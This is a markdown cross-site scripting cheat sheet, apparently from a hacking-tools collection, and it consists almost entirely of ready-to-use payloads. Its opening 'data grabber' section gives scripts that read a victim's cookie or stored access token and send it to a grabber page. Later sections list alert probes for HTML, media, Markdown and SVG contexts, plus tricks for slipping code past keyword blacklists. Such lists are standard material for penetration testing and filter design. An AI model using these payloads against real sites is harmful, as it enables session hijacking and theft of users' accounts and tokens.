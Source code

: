 # XSS

> Cross-Site Scripting \(XSS\) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user.
>
> Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.
>
> 📖 More information: [https://owasp.org/www-community/attacks/xss/](https://owasp.org/www-community/attacks/xss/)

## Data grabber for XSS

> Obtains the administrator cookie or sensitive access token, the following payload will send it to a controlled page.

```javascript
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
```

```javascript
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
```

```javascript
<script>new Image().src='http://localhost/cookie.php?c='+document.cookie;</script>
```

```javascript
<script>new Image().src='http://localhost/cookie.php?c='+localStorage.getItem('access_token');</script>
```

## XSS in HTML/Applications

### Basic Payload

```javascript
<script>alert('XSS')</script>
```

```javascript
<scr<script>ipt>alert('XSS')</scr<script>ipt>
```

```javascript
"><script>alert("XSS")</script>
```

```javascript
"><script>alert(String.fromCharCode(88,83,83))</script>
```

### Img tag payload

```markup
<img src=x onerror=alert('XSS');>
```

```markup
<img src=x onerror=alert('XSS')//
```

```markup
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
```

```markup
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
```

```markup
<img src=x:alert(alt) onerror=eval(src) alt=xss>
```

```markup
"><img src=x onerror=alert("XSS");>
```

```markup
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
```

### Video tag payload

```markup
<video autoplay onloadstart="alert('XSS')" src=x></video>
```

```markup
<video autoplay controls onplay="alert('XSS')"><source src="x"></video>
```

```markup
<video controls onloadeddata="alert('XSS')"><source src="x"></video>
```

```markup
<video controls onloadedmetadata="alert('XSS')"><source src="x"></video>
```

```markup
<video controls onloadstart="alert('XSS')"><source src="x"></video>
```

```markup
<video controls oncanplay="alert('XSS')"><source src="x"></video>
```

### Audio tag payload

```markup
<audio autoplay controls onplay="alert('XSS')"><source src="x"></audio>
```

```markup
<audio autoplay controls onplaying="alert('XSS')"><source src="x"></audio>
```

## XSS in Markdown

```text
[a](javascript:prompt(document.cookie))
```

```text
[a](j a v a s c r i p t:prompt(document.cookie))
```

```text
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
```

```text
[a](javascript:window.onerror=alert;throw%201)
```

## XSS in SVG \(short\)

```markup
<svg xmlns='http://www.w3.org/2000/svg' onload='alert(document.domain)'/>
```

```markup
<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
```

```markup
<svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>
```

```markup
<svg><title><![CDATA[</title><script>alert(3)</script>]]></svg>
```

## Bypass word blacklist with code evaluation

```javascript
eval('ale'+'rt(0)');
```

```javascript
Function('ale'+'rt(1)')();
```

```javascript
new Function`alert`6``;
```

```javascript
setTimeout('ale'+'rt(2)');
```

```javascript
setInterval('ale'+'rt(10)');
```

```javascript
Set.constructor('ale'+'rt(13)')();
```

```javascript
Set.constructor`alert(14)```;
```

## 📚 References

* [owasp.org/www-community/attacks/xss/](https://owasp.org/www-community/attacks/xss/)
* [github.com/LasCC/Hack-Tools](https://github.com/LasCC/Hack-Tools)
* [netsec.expert/posts/xss-in-2021/](https://netsec.expert/posts/xss-in-2021/)
* [portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
* [owasp.org/www-community/xss-filter-evasion-cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
* [en.wikipedia.org/wiki/Cross-site\_scripting](https://en.wikipedia.org/wiki/Cross-site_scripting)

